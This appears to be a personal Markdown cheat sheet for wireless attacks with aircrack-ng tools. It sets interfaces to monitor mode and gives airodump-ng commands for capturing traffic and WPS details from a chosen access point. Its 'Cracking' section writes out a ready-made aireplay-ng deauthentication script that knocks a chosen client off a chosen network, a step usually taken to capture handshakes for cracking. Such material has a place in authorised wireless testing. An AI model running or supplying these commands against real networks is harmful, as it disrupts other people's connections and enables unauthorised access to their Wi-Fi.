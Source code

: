 ## General

### AP `a`
```bash
1 ap
2 sta
3 ap+sta
```

### Filter `s`
```bash
10 first seen
```

## Driver
```bash
https://github.com/aircrack-ng/rtl8812au
```

## Settings
```bash
ip link set wlan0 down
iw dev wlan0 set type monitor
ip link set wlan0 up

ip link set wlan1 down
iw dev wlan1 set type monitor
ip link set wlan1 up
```

## Monitor

### Generic
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime --band a wlan0
airodump-ng --manufacturer --beacons --showack --wps --uptime --band bg wlan0
```

```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --write-interval 5 --output-format pcap --write session0 \
            --band bg wlan0
```

### Target
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --bssid CHANGEME --channel 1 wlan0
```

```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --write-interval 5 --output-format pcap --write session0 \
            --bssid CHANGEME --channel 1 wlan0
```

## Cracking
```bash
cat >> deauth.sh << "EndOfMessage"
iwconfig wlan1 channel $1

aireplay-ng -0 99 -D -a $2 -c $3 $4
EndOfMessage

chmod +x deauth.sh
```

## Kill View
```bash
kill -9 `ps aux | grep -i aircrack | awk '{print $2}'`
```
